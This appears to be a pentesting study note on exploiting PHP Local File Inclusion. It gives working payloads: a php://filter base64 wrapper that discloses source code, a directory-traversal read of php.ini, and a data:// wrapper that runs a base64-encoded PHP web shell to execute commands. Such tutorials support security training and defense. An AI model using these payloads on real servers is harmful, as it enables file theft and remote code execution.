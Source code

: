 ### Local File Inclusion (LFI)

Identify injection points where attacker input can change the data being displayed to reveal files.
- Using techniques from the [[Directory Traversal]] note, attackers can bypass defenses that are put in place to protect against file inclusion vulnerabilities.
- Check out also [[Command Injection]] note for more complex techniques to bypass filters.

#### Using PHP Wrappers

`PHP` wrappers are special stream wrappers that allow `PHP` to interact with various types of data streams, such as files, URLs, or even custom [[Protocol]]s, in a consistent and unified way.
###### Filter Wrapper

This takes input and filters it in a defined manner by the type of filter used.
- The `filter` wrapper has 2 important parameters, which are `resource` and `read`, that define how to apply the filter and the resource file to be applied on.

The base64 conversion filter is useful in disclosing source code, and it can be used by specifying the file name:
```url
php://filter/read=convert.base64-encode/resource=filename
```
- The filename can be discovered by using a fuzzing tool as part of [[Directory and File Enumeration]] with a *fixed* file type extension at the end of `.php`.

###### Data Wrapper

This can be used to include external data, such as `php` code.
- Can **only** be used if the `allow_url_include` setting is enabled in the configuration file.
- it is set to off by default, so check it before trying to exploit.

> The configuration file is found at `/etc/php/X.Y/apache2/php.ini` for Apache and `/etc/php/X.Y/fpm/php.ini` for Nginx, where `X.Y` is the `php` version.

To read the configuration file, we will use the `filter` wrapper with the base64 filter because the characters they contain can break the output stream:
```url
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```
- Try different versions starting from the latest and keep going for earlier versions.
- Base64 decode the output and find the setting for `allow_url_include`.

If it is set to on, then the `Data` wrapper can be used to upload data, in this case, a web shell is the winner.
- The data could be uploaded encoded as Base64:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

- Pass the output to the data wrapper, and pass the command to be executed as a `GET` request query parameter.
```url
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

> The Base64 encoded data is placed after `data://text/plain;base64,`
